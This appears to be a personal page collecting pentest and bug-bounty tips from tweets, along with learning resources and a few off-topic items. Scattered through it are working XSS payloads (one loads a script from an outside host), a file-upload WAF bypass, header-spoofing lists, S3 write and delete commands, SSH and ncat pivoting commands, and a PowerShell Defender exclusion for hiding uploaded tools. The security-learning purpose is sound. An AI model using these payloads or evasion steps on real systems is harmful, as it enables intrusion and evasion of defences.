

Various pentest tips
Collection of tweets I bookmarked and ended up saving here, given how volatile they can be.
S3 bucket commands (@_probatorem)
Found an S3 Bucket? Try these commands:
aws s3api get-bucket-acl --bucket [BucketName]
aws s3 ls s3://[BucketName]
aws s3 mv test.txt s3://[BucketName]
aws s3 cp test.txt s3://[BucketName]
aws s3 rm s3://[BucketName]
Windows defender exclusion (@_th3y)
TIL: need to upload sketchy shit onto a box? Create a windows defender exclusion with powershell
Add-MpPreference -ExclusionPath "C:\users\lolcats\AppData\mysketchdir"
Reflected XSS on instagram (@Samm0uda)
One-click reflected XSS in http://instagram.com due to unfiltered URI schemes leads to account takeover ($9600): https://ysamm.com/?p=695
3 resources to find bugs (@KathanP19)
The only three resources you need to find bugs in web application and score some bounties:
- https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content
- https://github.com/KathanP19/HowToHunt
- https://github.com/swisskyrepo/PayloadsAllTheThings
Find subdomains + scan open ports + take screenshots (@edu4rdshl)
Do you want to find subdomains, scan all open ports fastly (with address deduplication and parallel scans), and take screenshots of all the possible host:port combos? use findomain + unimap in the following way:
![Screenshot showing two commands using findomain (https://github.com/Findomain/Findomain) and unimap (https://github.com/Edu4rdSHL/unimap): first one is "findomain -t bugcrowd.com -q | sudo unimap --stdin --min-rate 10000 --fast-scan --ports '0-65353' -q --url-output | findomain --stdin -x --screenshots screenshots_folder". Second one is to check the available HTTP services without taking screenshots: "findomain -t bugcrowd.com -q | sudo unimap --stdin --min-rate 10000 --fast-scan --ports '0-65353' -q --url-output | findomain --stdin -x --http-status"](../../../assets/images/twitter-tips/twitter_tips_01.jpg)
WAF bypass (@HackENews)
WAF bypass during exploitation of file upload Feu
/?file=rce.php <-- blocked
/?file=rce.php.jpg <-- blocked
/?file=rce.php5 <-- blocked
/?file===rce.php <-- bypassed 200 ok
XSS payload (@XssPayloads)
A good one by @rodoassis, leveraging the Sec-Fetch-Dest 'security' header...
<Img Src=//X55.is OnLoad=import(src)>
Find leaking AWS keys (@h4x0r_dz)
In this tweet, i will explain to you how to find leaking AWS keys.
Basically, you can search for something at bevigil.com/search
For example "aws_secret" and select code:
You can search for something in a specific app using it's ID.
For example twitter app (com.twitter.android):
If your target app does not exist in bevigil, you can add it : for example I want to add djezzy app (com.djezzy.internet). Wait a few minutes and it will be ready on bevigil.
As a bug hunter, search for all secret API keys, not only the AWS.
For example GOOGLE_API_KEY regex: AIza[0-9A-Za-z-_]{35}
For more info about secret & sensitive API keys for bug bounty, go to keyhacks repository:
https://github.com/streaak/keyhacks
Tunneling and port-forwarding concepts (@infosec_advisor)
I have seen a lot of #pentesters struggle with tunneling and port-forwarding concepts. All hackers should definitely understand these concepts for successful tests.
This thread is dedicated to tunneling/portforwarding tricks.
Local port2port
Open new port in SSH server --> other port:
ssh -R 0.0.0.0:10521:127.0.0.1:1521 user@10.0.0.1 #Local port 1521 accessible in port 10521 from everywhere
ssh -R 0.0.0.0:10521:10.0.0.1:1521 user@10.0.0.1 #Remote port 1521 accessible in port 10521 from everywhere
port2hostnet (proxychains)
Local port --> compromised host(SSH) --> wherever:
ssh -f -N -D <attacker_port> <username>@<ip_compromised>
sshuttle
You can tunnel via SSH all the traffic to a subnetwork through a host.
Example, forwarding all the traffic going to 10.0.0.1/24:
pip install sshuttle
sshuttle -r user@host 10.0.0.1/24
meterpreter
@metasploit
meterpreter > portfwd add -l 80 -r 172.16.0.0 -p 80
ncat port forwarder
mknod pivot p
nc -l -p < port to listen on> 0<pivot | nc 1>pivot
Remote port forwarding
ssh -N -R 10.10.1.1:4455:127.0.0.1:445 attacker@10.10.1.1
SOCKS5 with SSH
ssh -N -D 127.0.0.1:8888 admin@10.1.1.1
SSH dynamic port forwarding
ssh -N -D 127.0.0.1:1337 user@remotehost -p 8888
Ncat http proxy
ncat -vv --listen 3128 --proxy-type http
SSH graphical connection (X)
ssh -Y -C <user>@<ip> # -Y is less secure but faster than -X
XSS polyglot (@JacksonHHax)
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
Finding if it's a honeypot (@_mattata)
Can't figure out if it's a honeypot or not?
Max out the URI length!
If it still returns a non-4xx error code, it's probably not a service operating at L7 ;)

Stored XSS payload (@Hunt4Crush)
"><img src=x onerror=confirm(document.domain);>
Bug bounty guidelines (@adi_thatipalli)
![A huge list of bug bounty guidelines, prefaced with "This is what I should do when I hunt": 1. Find subdomains | 2. Check CNAME records of those subdomains, check for subdomain takeover. Use waybackurls for URLs | 3. Use massscan for port scanning | 4. Do github recon | 5. On webapp: | 6. Check for CORS misconfiguration | 7. Check for email header injection or reset password function | 8. Check for SMTP and HOST header injection | 9. Check for IFRAME (for clickjacking) | 10. Check for improper access control and parameter tampering | 11. Check burp history for finding endpoints | 12. Use arjun for finding hidden endpoints | 13. Check for CSRF | 14. Check for SSRF parameters | 15. Check for XSS and SSTI | 16. Check cryptography in reset password token | 17. Check for unicode injection in email parameter | 18. Check for bypassing rate limit headers :- X-Originating-IP:IP | X-Forwarded-For:IP | X-Remote-IP:IP | X-Remote-Addr:IP | X-Client-IP:IP | X-Forwarded-Host:IP | 19. Directory brute-force | 20. Check for HTTP request smuggling | 21. Check for open redirect through waybackurls | 22. Check for social-signon bypass | 23. Check for state parameter in social sign-in & check whether it's possible to cause DoS using multiple cookies injection | 24. File-upload CSRF, XSS, SSRF, RCE, LFI, XXE | 25. Buffer overflow](../../../assets/images/twitter-tips/twitter_tips_08.jpg)
Quick and dirty S3 hacking (@johnjhacking)
1/Quick and dirty S3 hacking:
bugbountytip #infosec
Always look through source code of subdomains.
If you find an S3 bucket, navigate to it. If you see file/directory listings, download the AWS CLI tool.sudo apt install awscli
Create free AWS account; https://aws.amazon.com/free/
Sign-in to https://console.aws.amazon.com/iam/ with that account
Click on users, click on add user
Name user whatever, click the programmatic access box
Click create group, click AdministratorAccessAdd the user to that group
Click next, click next, create
Click on the user, click on security credentials
Click on create access key, grab the access key id and the secret access key
Go back to terminal
sudo aws configure
Enter access key/idHit enter all the way through until you're done
--HACKING--
Cool, so now you're setup on CLI, you probably want to exploit it now. The exposed bucket url will look like this:
https://bucketname.s3.amazonaws.com or some variation of that.
First, you'll want to look at the bucket permissions:
aws s3api get-bucket-acl --bucket bucketname
You don't need the http://s3.amazonaws.com part
To list the contents of the bucket:
aws s3 ls s3://bucketname
If you see a bunch of directories, you're probably golden. You'll probably want to test for write access because at that point you can get RCE and it turns into a critical. You'll also want to look for PII or data the org wouldn't want exposed in the files.
It can take a long time to look through each of the directories manually, there's an easier way to grab all content:
aws s3 sync s3://bucketname .
This will grab everything. Make sure you have space.
Let's say you're SOL. The bucket has 0 sensitive files, all image files. Testing write access is the way to go:
echo "boom" > rceproof.txt
aws s3 mv rceproof.txt s3://bucketname
aws s3 ls s3://bucketname
If you have write access on a bucket hosting non-impact related items, you can easily turn a "not vuln" into a crit.
There's far more you can do, but this is for people looking to make a quick bounty.
Cloudfail - information gathering (@SkyNetTools)
(Cloudfail - Information gathering to discover identity of the server behind cloudflare) - https://skynettools.com/cloudfail-information-gathering-to-discover-identity-of-the-server-behind-cloudflare/
Surveillance self-defense (@IanColdwater)
Folks doing protest stuff: I've seen a lot of asks for information about how to keep your devices safer and some questionable info going around recently. Here is a really good resource about keeping yourself and your devices safer from surveillance
Fuzzing for directories (@HackENews and @nnwakelam)
Add them all together > uniq them > run them with ffuf
When fuzzing for directories follow these wordlists.
- dirsearch
- directory-list-2.3-medium
- httparchive_directories
- raft
- robotsdisallowed
Then go for technology-specific chances are high with these wordlists
Sources for these wordlists:
https://wordlists.assetnote.io/
https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content
You can also try big.txt, content_discovery_all.txt by @Jhaddix, fuzz.txt by @i_bo0om,check which one works best for you. Good luck!!!
Hackerone tip (@ArchAngelDDay)
Pay attention to your @Hacker0x01 rep log at https://hackerone.com/settings/reputation/log. Whenever you see a dupe report get +2 reputation, it means the original report was just resolved. Then retest your report to see if you can still repro. I've made a non-trivial amount this way.
Tutorials on pointers (@netspooky)
One of the best tutorials on pointers i've seen:
The basics and pitfalls of pointers in C
https://hackaday.com/2018/04/04/the-basics-and-pitfalls-of-pointers-in-c/
When 4 + 1 equals 8: an advanced take on pointers in C
https://hackaday.com/2018/04/19/when-4-1-equals-8-an-advanced-take-on-pointers-in-c/
Directly executing chunks of memory: function pointers in C
https://hackaday.com/2018/05/02/dir
Cookie tip (@pry0cc)
Today I learned that if you ever find a cookie that looks like this:
Fe26.2**0cdd607945dd
Fe26.*******
You can test it using lronfilings! https://github.com/tkeetch/iron-filings
Learning mimikatz (@EricaZeli)
Wanna learn how windows really works under the hood? Learn mimikatz. Here's a good place to start: https://adsecurity.org/?page_id=1821
Automating XSS (@ofjaaah)
arjur + paramspider + axiom + dalfox + list xss priv (XSS-OFJAAAH.txt)
Recommended books (@TinkerSec)
Folks often ask how to get into pentesting.
I recommend two books:
Penetration testing: a hands-on introduction to hacking by georgia weidman - https://nostarch.com/pentesting
The hacker playbook(s): practical guide to penetration testing by peter kim - https://securepla.net/hacker-playbook/
I recommend getting started in CTFs to practice tooling.
A great start is:
- overthewire: bandit - https://overthewire.org/wargames/bandit/
What are some beginning courses, books, CTFs, etc., that you recommend to folks who want to get into penetration testing?
Buffer overflow course (@TheBlindHacker)
Free #BufferOvferlow course by @breachlabs_io
https://youtube.com/watch?v=XKJbZ7yzIh4&t=11s
Bug bounties: tips from the triager (@SecureOwl)
I wrote a thing that I've been meaning to put together for some time. I don't think there is anything groundbreaking in here, but it should serve as a reminder of what goes on behind the scenes.
Bug bounties: tips from the triager https://link.medium.com/jKuVwc6K1eb #infosec #bugbountytips
Abusing data protection for d0xing and account takeovers (@Hxzeroone)
Hey
I wrote a paper on abusing data protection laws for doxing & account takeovers. This research lead to over 5 figures in bounties & affected companies including shopify, gitlab, tesla.
Click here to check it out and let me know what you think!
https://hx01.me/Abusing_Data_Protection_Laws_For_D0xing_and_Account_Takeovers.pdf
Burp suite + ffuf (@joohoi)
We all love burp suite by @PortSwigger, right? Want to send over all the ffuf job matches to burp? Easy with -replay-proxy
ffuf -u https://example.org/FUZZ -w wordlist.txt -replay-proxy http://127.0.0.1:8080
If you ffuf on remote box, this totally works through SSH tunnels too!
Cybersecurity CV templates (@Gerald_Auger)
https://www.simplycyber.io/free-cyber-resources
Linkedin challenge? (@ITJunkie's)
Also working on @ITJunkie's linkedin challenge and I'm almost halfway to that 1000 connections〜
RCE to shell and others OCSP tips (@initinfosec)
https://threadreaderapp.com/thread/1354452459062759427.html
Bypass WAFs tip (@HolyBugx)
You can bypass WAFs using a simple match&replace rule in burp suite, I used it and I simply bypassed a WAF restriction just now.
I covered the syntax and the headers you can use.
![List of all the headers to be added to the replace field as described above: X-Forwarded-Host: 127.0.0.1 | X-Forwarded-Port: 127.0.0.1 | X-Forwarded-By: 127.0.0.1 | X-Forwarded-Scheme: 127.0.0.1 | X-Frame-Options: 127.0.0.1 | X-Forwarded-For: 127.0.0.1 | X-Client-IP: 127.0.0.1 | X-Real-IP: 127.0.0.1 | X-Originating-IP: 127.0.0.1 | X-Remote-IP: 127.0.0.1 | X-Remote-Addr: 127.0.0.1 | X-Cluster-Client-IP: 127.0.0.1 | True-Client-IP: 127.0.0.1 | Client-IP: 127.0.0.1 | Origin: null | Origin: Domain.attacker.com](../../../assets/images/twitter-tips/twitter_tips_11.jpg)
Testing password fields (@secalert)
When testing password fields, my preferred password is:
%01%E2%80%AEalert%0D%0A
Let's break it down:
%01 is SOH
%e2%80%ae is RTLO
%0d%0a is CRLF
Test cases on login:
- Can I log in only using %01?
- Without the CRLF in it?
- Is trela accepted instead of alert? (due to RTLO)
SOH stands for "start of heading". it is "U+0001".
You can read an example of how it can help you here:
https://secalert.net/index.html?#scl-soh
RTLO is "right-to-left-override". It is "U+202E".
You can read an example of how it can help you here:
https://secalert.net/index.html?#2020_2
Sci-fi movies (@hackermaderas)
In no order, some of my favorite science fiction films; feel free to reply w/ your list:
Blade runner
12 Monkeys
La jetée
World on a wire
Blade runner 2049
Battle royale
Total recall
Stalker
2001: a space odyssey
Solaris
Elysium
The terminator
Akira
Ghost in the shell
Aliens
Pi
Children of men
They live
Escape from NY
The thing
Primer
Ex machina
Dark city
The matrix reloaded
The matrix
Animatrix
The endless
District 9
Outland
Moon
Robocop
Starship troopers
Starting out with bug bounties (@SMHTahsin33)
Hello,
If you are just getting started into bug bounties and can't find enough resources, this thread might help you to find a way üëá
To get started into bug bounties, these two blogs are suggested to be read.
- https://whoami.securitybreached.org/2019/06/03/guide-getting-started-in-bug-bounty-hunting/ by @KHIZER_JAVED47 and
- https://0xprial.com/how-to-get-into-bug-bounties-part-01/
These covers a lot of the basics and will help you to get started with different bug classes.
Learn and practice more. These resources are open playgrounds for learning and practicing:
- @WebSecAcademy (My Most Favorite Free Lab)
- @RealTryHackMe
- @PentesterLab Here you can learn and practice at a time. and... @BugBountyHunt3r is a standalone thing in my views, it's paid but worth every penny. It can get you from the beginning to a level where you get much confidence to get started with real world targets. Wanting to deep dive into different bug classes?
- Read writeups from @InfoSecComm
- Read disclosed @Hacker0x01 reports https://hackerone.com/hacktivity
- @BugBountyHunt3r has Compiled the h1 reports and categorized them https://www.bugbountyhunter.com/disclosed/ (1/2)
- @PentesterLand has a huge collection of writeups: https://pentester.land/list-of-bug-bounty-writeups.html (2/2)
Youtube Channels?
- @NahamSec (he has interviews with a lot of great hackers from the community)
- @stokfredrik (his video will give you a lot of motivations and knowledge)
- @InsiderPhD (her videos will help you to get started) [1/2]
- @PwnFunction (he has great explained videos on different bug classes)
- @TomNomNom also has a lot of great videos.
- @zseano (he has great mentoring videos)
- @0xReconless (he has a lot of great content out there) some more in the list:
- @codingo_ (he explains everything well❤️)
- @hakluke (he explains very well Too)
Still need some more ways to get writeups?
No tension @payloadartist here with a solution.
Visit https://www.bugbountyhunting.com/ and search by any bug name and boom!
Learnt some bugs?
Here you go.. you will find ways of how to hunt for them and also their bypasses :
https://github.com/KathanP19/HowToHunt
by @KathanP19 and Contributed by the Community❤️